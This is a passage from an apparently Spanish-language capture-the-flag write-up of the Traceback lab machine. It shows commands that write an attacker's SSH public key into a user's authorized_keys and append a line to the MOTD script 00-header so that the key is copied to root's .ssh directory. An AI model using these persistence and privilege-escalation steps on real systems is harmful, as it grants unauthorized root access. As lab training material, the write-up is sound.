 ```bash
sysadmin@traceback:/etc/update-motd.d$ echo 'ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIKu23HUcaRFAHVBfzy2IJTf+jwRyuzxSeg5KFVRuWNqZ kali@kali' > /home/sysadmin/.ssh/authorized_keys
```

Verificamos que efectivamente podemos autenticarnos al `SSH` con dicho usuario sin proporcionar credenciales válidas.

```bash
❯ ssh sysadmin@10.10.10.181
The authenticity of host '10.10.10.181 (10.10.10.181)' can't be established.
ED25519 key fingerprint is SHA256:t2eqwvH1bBfzEerEaGcY/lX/lrLq/rpBznQqxrTiVfM.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.181' (ED25519) to the list of known hosts.
#################################
-------- OWNED BY XH4H  ---------
- I guess stuff could have been configured better ^^ -
#################################

Welcome to Xh4H land 



Last login: Mon Mar 16 03:50:24 2020 from 10.10.14.2
$ whoami
sysadmin
```

El siguiente paso será sobreescribir el script `MOTD` llamado `00-header` para indicarle que haga una copia de nuestra clave pública ubicada en `/home/sysadmin/.ssh/authorized_keys` hacia `/root/.ssh`, así el usuario `root`, dispondrá de un archivo llamado `authorized_keys` con nuestra clave pública y podremos conectarnos sin proporcionar credenciales.

```bash
sysadmin@traceback:/etc/update-motd.d$ echo 'cp /home/sysadmin/.ssh/authorized_keys /root/.ssh/' >> 00-header
```

Para que se activen los scripts `MOTD`, rápidamente deberemos iniciar sesión mediante `SSH` con el usuario `sysadmin`.

```bash
❯ ssh sysadmin@10.10.10.181
#################################
-------- OWNED BY XH4H  ---------
- I guess stuff could have been configured better ^^ -
#################################

Welcome to Xh4H land 



Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

Last login: Thu Mar  6 09:38:03 2025 from 10.10.14.2
$ whoami
sysadmin
```
